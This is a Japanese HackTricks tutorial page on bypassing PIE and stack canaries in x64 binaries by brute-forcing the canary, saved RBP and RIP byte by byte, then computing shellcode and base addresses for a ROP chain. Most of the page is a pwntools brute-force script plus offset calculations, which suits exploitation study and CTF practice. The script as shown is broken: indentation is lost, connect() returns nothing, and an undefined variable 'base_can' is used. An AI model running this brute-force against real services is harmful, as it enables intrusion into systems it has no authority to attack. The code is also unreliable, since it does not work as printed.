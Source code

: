 # スタック内のBFアドレス

{% hint style="success" %}
AWSハッキングの学習と練習：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングの学習と練習：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksのサポート</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* **HackTricks**と**HackTricks Cloud**のGitHubリポジトリにPRを提出して**ハッキングトリックを共有**してください。

</details>
{% endhint %}

**キャナリーとPIE（位置独立実行可能ファイル）で保護されたバイナリに直面している場合、おそらくそれらをバイパスする方法を見つける必要があります。**

![](<../../../.gitbook/assets/image (865).png>)

{% hint style="info" %}
**`checksec`** がバイナリがキャナリーで保護されていることを見つけられない場合があります。これは静的にコンパイルされており、関数を識別することができない場合です。\
ただし、関数呼び出しの開始時にスタックに値が保存され、この値が終了前にチェックされる場合、手動でこれを気付くことができます。
{% endhint %}

## アドレスのブルートフォース

**PIEをバイパス**するためには、**いくつかのアドレスをリークする必要があります**。バイナリがアドレスをリークしていない場合、脆弱な関数内のスタックに保存された**RBPとRIPをブルートフォースする**のが最善です。\
たとえば、バイナリが**キャナリー**と**PIE**の両方を使用して保護されている場合、まずキャナリーをブルートフォースし、次の8バイト（x64）が保存された**RBP**であり、次の8バイトが保存された**RIP**になります。

{% hint style="success" %}
スタック内のリターンアドレスがメインバイナリコードに属していると仮定されており、脆弱性がバイナリコードにある場合は通常そのようなケースになります。
{% endhint %}

バイナリからRBPとRIPをブルートフォースするには、プログラムが何かを出力するかクラッシュしない場合に、有効な推測されたバイトが正しいことがわかります。キャナリーをブルートフォースするために提供された関数と**同じ関数**を使用して、RBPとRIPをブルートフォースすることができます：
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

# CANARY BF HERE
canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary

# PIE BF FROM HERE
print("Brute-Forcing RBP")
base_canary_rbp = get_bf(base_canary)
RBP = u64(base_canary_rbp[len(base_canary_rbp)-8:])
print("Brute-Forcing RIP")
base_canary_rbp_rip = get_bf(base_canary_rbp)
RIP = u64(base_canary_rbp_rip[len(base_canary_rbp_rip)-8:])
```
最後に、PIEを打破するために必要なのは、漏洩したアドレスから有用なアドレスを計算することです: **RBP** と **RIP**。

**RBP** からは、**スタック内にシェルを書き込む場所を計算**することができます。これは、スタック内に文字列 _"/bin/sh\x00"_ を書き込む場所を知るのに非常に役立ちます。漏洩したRBPとシェルコードの間の距離を計算するには、漏洩したRBPの後に**ブレークポイントを設定**して、**シェルコードの場所を確認**し、その後、シェルコードとRBPの間の距離を計算できます:
```python
INI_SHELLCODE = RBP - 1152
```
**RIP**からは、**PIEバイナリのベースアドレス**を計算できます。これは、**有効なROPチェーン**を作成するために必要になります。\
ベースアドレスを計算するには、単に`objdump -d vunbinary`を実行し、最新のアドレスを逐次分解してください:

![](<../../../.gitbook/assets/image (479).png>)

この例では、すべてのコードを特定するのに**1バイトと半分だけが必要**であることがわかります。したがって、この状況では、ベースアドレスは**"000"で終わるリークしたRIP**になります。たとえば、`0x562002970ecf`がリークした場合、ベースアドレスは`0x562002970000`になります。
```python
elf.address = RIP - (RIP & 0xfff)
```
## 改善

[**この投稿からのいくつかの観察**](https://github.com/florianhofhammer/stack-buffer-overflow-internship/blob/master/NOTES.md#extended-brute-force-leaking) によると、RBP と RIP の値が漏洩するとき、サーバーは正しい値でない場合にクラッシュしない可能性があり、BF スクリプトは正しい値を取得したと思うかもしれません。これは、**正確な値でなくても、いくつかのアドレスがそれを壊すことが可能**だからです。

そのブログ投稿によると、サーバーへのリクエスト間に短い遅延を追加することが推奨されています。
